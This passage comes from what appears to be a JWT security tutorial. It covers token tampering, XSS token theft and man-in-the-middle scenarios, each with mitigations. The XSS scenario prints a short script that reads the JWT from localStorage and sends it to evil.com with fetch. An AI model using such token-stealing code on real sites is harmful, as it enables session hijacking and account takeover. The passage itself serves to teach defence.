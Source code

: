**Attacker tries:**
```javascript
// Steal token from localStorage
const token = localStorage.getItem('jwt_token');

// Decode payload
const parts = token.split('.');
const payload = JSON.parse(atob(parts[1]));

// Try to change role
payload.role = 'admin';

// Re-encode
const fakeToken = parts[0] + '.' + btoa(JSON.stringify(payload)) + '.' + parts[2];
```

**Result:**
- ❌ Signature no longer matches
- ❌ Server rejects request
- ❌ Attack fails

---

#### ❌ Scenario 2: Token Theft (XSS)

**If attacker injects malicious JavaScript:**
```javascript
// Attacker's script
const stolenToken = localStorage.getItem('jwt_token');
fetch('https://evil.com/steal?token=' + stolenToken);
```

**Mitigation:**
- ✅ Use httpOnly cookies (JavaScript can't access)
- ✅ Content Security Policy headers
- ✅ Input sanitization
- ✅ Short expiration times (1 hour)

---

#### ❌ Scenario 3: Man-in-the-Middle

**Attacker intercepts network traffic:**

**Mitigation:**
- ✅ **Always use HTTPS** in production
- ✅ Enable HSTS (HTTP Strict Transport Security)
- ✅ Certificate pinning (mobile apps)

---

## Common Questions

### Q1: Why doesn't server store JWT?
